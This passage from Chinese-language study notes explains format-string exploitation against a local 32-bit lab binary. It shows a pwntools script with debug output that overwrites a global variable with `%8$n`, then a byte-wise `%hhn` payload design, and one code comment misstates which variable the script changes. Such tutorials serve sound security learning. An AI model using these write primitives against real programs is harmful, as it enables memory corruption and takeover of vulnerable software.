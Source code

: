 

- 将全局变量a覆盖为2的方法：`aa%8$nbb[addr]`。由前面的分析，format string相对于`printf`第 1 个参数来说是第 6 个参数，而现在`aa%8`占据了第6个参数，`$nbb`占据了第7个参数，所以`[addr]`就变成了第8个参数。同理，可以使用`aa%9$nbbcccc[addr]`... 这里以4为倍数，用b来凑数对齐，是因为程序是32bit程序

```cpp
aa%k$nbb[addr]  // tips: 该例说明地址不一定要放在format string开头
```

- a的数量取决于想将[addr]覆盖为多少，b的数量则取决于机器字长(32/64 bit)，k 取决于 aa%k$nbb 总长度与原本 format string 是第几个参数

```python
from pwn import *  # 将 overwrite.c 中的变量 c 覆盖为16
def fora():
    sh = process('./overwrite')
    a_addr = 0x0804A024 # 该地址通过IDA静态分析得到，a是已初始化全局变量，在.data段，不在堆栈上
    payload = b'aa%8$nbb' + p32(a_addr) # aa%8$nbb[addr] # aa输出两个字符，%8$n
    sh.sendline(payload)
    print(sh.recv()) # 0xff9ac76c\naabb$\xa0\x04\x08modified a for a small number.\n
    sh.interactive()
context.log_level = "DEBUG"
fora()
```

```bash
$ python overwrite.py # 运行上述脚本
[+] Starting local process './overwrite' argv=[b'./overwrite'] : pid 2581307
[DEBUG] Sent 0xd bytes:
    00000000  61 61 25 38  24 6e 62 62  24 a0 04 08  0a           │aa%8│$nbb│$···│·│ # payload: aa%8$nbb[addr]
    0000000d
[DEBUG] Received 0x32 bytes:
    00000000  30 78 66 66  39 61 63 37  36 63 0a 61  61 62 62 24  │0xff│9ac7│6c·a│abb$│ # recv: printf("%p\n", &c); aabb
    00000010  a0 04 08 6d  6f 64 69 66  69 65 64 20  61 20 66 6f  │···m│odif│ied │a fo│ # 0804A024 为全局变量 a 的地址
    00000020  72 20 61 20  73 6d 61 6c  6c 20 6e 75  6d 62 65 72  │r a │smal│l nu│mber│ # modified a for a small number.
    00000030  2e 0a                                               │.·│                  # 说明命中了 else if (a == 2) 分支
    00000032
b'0xff9ac76c\naabb$\xa0\x04\x08modified a for a small number.\n'   .........
```



##### 用 hh / h 分块覆盖

>  本节将全局变量 b 覆盖为 0x12345678。注意本节默认已经得到了fmt str 地址相对于printf第 1 个参数为第 6 个参数

- `hh` 对于整数类型，`printf`期待一个从`char`提升的`int`尺寸的整型参数。`$hhn`会把输出字符数存在一`char`地址上，即覆盖指针指向的地址上的 1Byte
- `h`  对于整数类型，`printf`期待一个从`short`提升的`int`尺寸的整型参数。`$hn`会把输出字符数存在一`short`地址上，即覆盖指针指向的地址上的 2Byte

在 x86 和 x64 的体系结构中，变量的存储格式为以**小端**存储，即最低有效位存储在低地址。即希望按照如下方式覆盖（左边为地址，右边为覆盖内容）：

```python
0x0804A028 0x78 # 该地址为全局变量 b 的地址(占4B) 由IDA分析得出
0x0804A029 0x56
0x0804A02a 0x34
0x0804A02b 0x12
```
- 故可构造如下payload，其中padx用于控制后面的`'%6$hhn'`写入的数字是多少
```python
p32(0x0804A028)+p32(0x0804A029)+p32(0x0804A02a)+p32(0x0804A02b)+pad1+'%6$hhn'+pad2+'%7$hhn'+pad3+'%8$hhn'+pad4+'%9$hhn'
```
